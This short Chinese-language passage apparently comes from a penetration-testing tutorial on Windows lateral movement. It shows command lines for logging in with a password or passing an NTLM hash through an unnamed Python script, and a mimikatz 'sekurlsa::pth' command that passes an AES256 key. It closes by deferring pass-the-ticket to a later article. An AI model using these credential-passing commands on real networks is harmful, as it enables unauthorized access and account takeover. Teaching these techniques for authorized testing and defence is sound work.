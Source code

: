 用法：

```plain
# 普通用法
python3 xxx.py domain/user:password@ip
# 哈希传递
python3 xxx.py domain/user@ip -hashes :93b95aef15f4d50fab96ffc44a2f326a
```

## [PTK aes256 传递](#toc_ptk-aes256)

打补丁后的工作组及域连接：

```plain
sekurlsa::pth /user:webserver-2008 /domain:uf9n1x /aes256:d7c1d9310753a2f7f240e5b2701dc1e6177d16a6e40af3c5cdff814719821c4b
```

## [PTT 票据传递](#toc_ptt)

需要先了解 kerberos 认证原理，及金票银票等，放在下一篇讨论
